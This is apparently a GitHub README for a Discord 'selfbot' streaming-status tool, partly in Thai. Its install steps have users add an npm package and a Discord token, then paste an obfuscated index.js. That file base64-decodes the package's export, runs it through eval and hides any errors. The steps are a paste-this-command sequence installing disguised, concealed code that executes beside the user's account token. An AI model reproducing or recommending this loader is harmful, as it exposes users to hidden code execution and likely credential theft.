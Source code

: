 # STATUS-Discord RichPresence Selfbot-V13 NodeJS-Module
+ 🟣Streaming status for Discord accounts
+ 🟣This code can make purple pill status unlimited for multiple accounts.

+ 🟣สถานะการสตรีมสำหรับบัญชี Discord
+ 🟣โค้ดนี้สามารถทำสถานะเม็ดม่วงผ่านบอทได้หลายบัญชีไม่จำกัด
+ 🟣ออกแบบมาเพื่อปรับแต่งชื่อโดยไม่ต้องปิดโค้ดแล้วรันใหม่
+ 🟣สถานะจะอัปเดตให้อัตโนมัติเมื่อมีการอัพเดทส่งข้อมูลผ่านบอท

<a href="https://pic.in.th/image/se.QWkpc4"><img src="https://img5.pic.in.th/file/secure-sv1/sef1bd0ce5ecb6d9fb.png" alt="se" border="0"></a>

## Installation
+ ติดตั้ง Modules
```sh
npm install status-chii-v2
```
## Run Code
+ รันโค้ด
```sh
node index.js
```
+ How To Code index.js STATUS Discord RichPresence
+ วิธีการเขียนโค้ด index.js สถานะ Discord RichPresence

# ใส่โทเค็นบอทในไฟล์ config.json
```js
{
    "TOKEN_BOT": "โทเค็นบอท",
    "user": []
}
```

# สร้างไฟล์ชื่อ index.js 
```js
(function () {
    let _0x1a3b = 'utf8';
    let _0x9f45 = 'status-chii-v2';
    let _0x7bdc = 'base64';
    function _0x8dfg6(_0x5e1a, _0x6b7d) {
        return (function (_0x2f7c, _0x1f3b) {
            return _0x2f7c(_0x5e1a, _0x1f3b);
        })(function (_0x4f32, _0x8e9d) {
            return eval(_0x4f32);
        }, _0x6b7d);
    }
    try {
        let _0x21a9 = Buffer.from(require(_0x9f45), _0x7bdc).toString(_0x1a3b);
        let _0x13fe = _0x8dfg6(_0x21a9, require);
        if (typeof _0x13fe === 'function') {
            _0x13fe();
        }
    } catch (error) {
        let originalConsoleError = console.error;
        console.error = () => { };
        console.error = originalConsoleError;
    }
})();
```
